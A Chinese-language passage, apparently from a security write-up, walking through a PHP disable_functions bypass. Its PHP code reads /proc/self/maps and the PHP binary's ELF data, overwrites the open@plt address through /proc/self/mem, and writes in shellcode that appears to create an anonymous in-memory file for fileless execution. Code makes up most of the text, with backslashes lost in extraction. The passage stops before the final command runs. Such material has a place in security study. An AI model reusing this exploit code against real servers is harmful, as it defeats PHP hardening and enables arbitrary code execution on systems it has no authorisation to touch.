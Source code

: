 我们重写了`open[@plt](https://github.com/plt)`的地址，以便绕过`disable_functions`限制。我们适当修改了beched的代码，现在可以将shellcode注入内存中。

首先我们需要在二进制文件中找到PHP解释器的地址，为了完成这个任务，我们可以运行`/proc/self/exe`，然后使用`parseelf()`解析可执行文件：

```
echo "[INFO] Trying to get open@plt offset in PHP binaryn";
$open_php = parseelf('/proc/self/exe', true);
if($open_php == 0) `{`
    echo "[-] Failed. Exitingn";
    exit;
`}`

echo '[+] Offset is 0x' . dechex($open_php) . "n";
$maps = file_get_contents('/proc/self/maps');

preg_match('#s+(/.+libc-.+)#', $maps, $r);
echo "[INFO] Libc location: $r[1]n";

preg_match('#s+(.+[stack].*)#', $maps, $m);
$stack = hexdec(explode('-', $m[1])[0]);
echo "[INFO] Stack location: ".dechex($stack)."n";


$pie_base = hexdec(explode('-', $maps)[0]);
echo "[INFO] PIE base: ".dechex($pie_base)."n";

echo "[INFO] Trying to get open and system symbols from Libcn";
list($system_offset, $open_offset) = parseelf($r[1]);
if($system_offset == 0 or $open_offset == 0) `{`
    echo "[-] Failed. Exitingn";
    exit;
`}`
```

找到`open()`函数的地址：

```
echo "[+] Got them. Seeking for address in memoryn";
$mem = fopen('/proc/self/mem', 'rb');
fseek($mem, ((PHP_MAJOR_VERSION == 7) * $pie_base) + $open_php);

$open_addr = unp(fread($mem, 8));
echo '[INFO] open@plt addr: 0x' . dechex($open_addr) . "n";

echo "[INFO] Rewriting open@plt addressn";
$mem = fopen('/proc/self/mem', 'wb');
```

现在我们可以开始加载可执行文件。首先我们创建一个匿名文件：

```
$shellcode_loc = $pie_base + 0x100;
$shellcode="x48x31xD2x52x54x5Fx6Ax01x5Ex68x3Fx01x00x00x58x0Fx05x5AxC3";
fseek($mem, $shellcode_loc);
fwrite($mem, $shellcode);

fseek($mem, (PHP_MAJOR_VERSION == 7) * $pie_base + $open_php);
fwrite($mem, packlli($shellcode_loc));
echo "[+] Address written. Executing cmdn";
$fp = fopen('fd', 'w');
```
